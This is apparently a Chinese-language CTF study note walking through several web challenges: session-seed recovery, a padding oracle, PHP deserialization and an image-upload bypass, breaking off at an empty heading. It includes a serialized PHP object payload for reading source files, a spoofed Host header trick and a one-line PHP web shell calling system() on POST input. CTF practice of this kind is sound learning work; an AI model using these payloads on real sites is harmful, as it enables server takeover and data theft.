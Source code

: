 可以把自己的 session_id 填进去 也可以干脆清空，这样就只有 $ss 了，然后就能根据 session 把 $seed 跑出来了，然后就能跑出文件目录了。

用 php 跑吧，如果用 python 跑可能跑不出来

有点怪怪的，要吃饭去上课了。。不管了

学会了 php 伪协议和一句话木马和 getshell 是什么 QWQ

## Be Admin

首先是 ./index.php.bak 源码泄露

然后是 padding oracle 攻击

鉴于没学密码学相关只是，就暂时先放一下

## Text Wall

源码泄露 ， ./.index.php.swo

ctf 的套路好多。。。web 是需要积累的。嗯。

还要知道反序列化数据

	return highlight_file('hiehiehie.txt', true).highlight_file($this->source, true);


	list="f3a6de2497f71356a3995e26a1f4f64ae48e80b1a:1:{i:0;O:8:"filelist":1:{s:6:"source";s:9:"index.php";}}"

读出 index.php，里面有 flag 的地址，再读 flag。

## Pictures' wall

我还说第一步 sqli，结果直接进去。。。

发现我们不是 root

我居然换了个 root，进去没用

看 wp，是改 header，host=127.0.0.1

然后上传图片 trick  

	<script language="php">
	system($_POST[va]);
	</script>

做题有些时候不要过于依赖浏览器，用 burp QwQ。

还有毒瘤们把 flag 删掉了！！！QAQ

## Chall 2

chall 1 的基础上

用源码搭建本地服务器，获得 admin 的 cookies

## Be Logical
